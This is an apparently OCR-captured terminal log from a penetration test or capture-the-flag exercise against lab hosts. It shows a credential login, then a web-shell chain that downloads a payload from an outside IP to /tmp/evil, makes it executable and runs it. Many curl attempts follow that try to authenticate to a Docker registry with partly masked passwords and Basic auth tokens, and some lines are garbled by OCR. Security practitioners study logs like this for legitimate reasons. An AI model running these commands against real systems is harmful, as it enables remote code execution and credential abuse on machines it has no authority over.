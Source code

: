 

# curl -X POST -d 'username=harriet&password=WhatsInTheBox844' http://10.30.3.30/login.php
SystemUser:harriet_sudo:LetMeInAndGiveMeRootroot@kali:~/HACKS/WALKER_DRAMA/10.30.3.30

##################
##
##

[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O /tmp/evil" http://$ip/files/sh.php [curl -s --data "cmd=chmod 777 /tmp/evil" http://$ip/files/sh.php curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php


 1931  curl -X POST -F 'username=ben' -F 'password=Txxxxxxxxxxxx9j'  10.30.5.11:5000/v2/
 1932  history | grep curl
 1933  curl -X POST 'http://10.30.5.11:5000/v2/' -d '{"username":"ben","password":"Tbxxxxxxxxxxx9j"}' -H 'content-type: application//json'
 1934  curl -i -u 'ben:TbExxxxxxxxxxm9j' http://10.30.5.11:5000/v2/ -v
 1972  curl -X GET https://myregistry:5000/v2/ubuntu/tags/list
 1973  curl -X GET https://reggie.evo:5000/v2/ubuntu/tags/list
 1974  curl -X GET http://reggie.evo:5000/v2/ubuntu/tags/list
 1975  curl -X GET http://reggie.evo:5000/v2/
 1976  curl -X GET https://myregistry:5000/v2/ubuntu/tags/list
 1978  curl -X GET -H "Authorization: Basic {VJxxxxxxxxo}" http://reggie.evo:5000/v2/ubuntu/tags/list
 1979  curl -X GET -H "Authorization: Basic {VJxxxxxxxxxxxxeKo}" http://reggie.evo:5000/v2/
 1980  history | grep curl
 1981  curl -X GET http://ben:Tasdfasdfasdfasdfm9j/reggie.evo:5000/v2/ubuntu/tags/list
 1982  curl -X GET http://ben:Tbasdfasdfadsf9j/reggie.evo:5000/v2/ubuntu/tags/list -v
 1983  curl -X GET http://ben:TbEasdfasdfasdfj@reggie.evo:5000/v2/ubuntu/tags/list -v
 1984  curl -X GET http://ben:Tbasdfasdfasdf9j@reggie.evo:5000/v2/ -v
 1985  curl -X GET http://ben:Tbasdfasdfasdfasdf9j@reggie.evo:5000/v2/  -H "Authorization: Basic {VJtZDrB-5yjhMpCmieKo}" -v
 1986  curl -X POST http://ben:Tbasdfasdfasdfasd9j@reggie.evo:5000/v2/ -H "Authorization: Basic {VJtZDrB-5yjhMpCmieKo}" -v
 1987  curl -X GET http://ben:Tbasdfasdfasdfgm9j@reggie.evo:5000/v2/  -H "Authorization: Basic {VJtZDrB-5yjhMpCmieKo}" -v
 1990  history | grep curl
 1991  curl -i -u 'ben:TbEwasfdasfdasxxxxxxxxm9j' http://10.30.5.11:5000/v2/ -v
 2003  history | grep curl
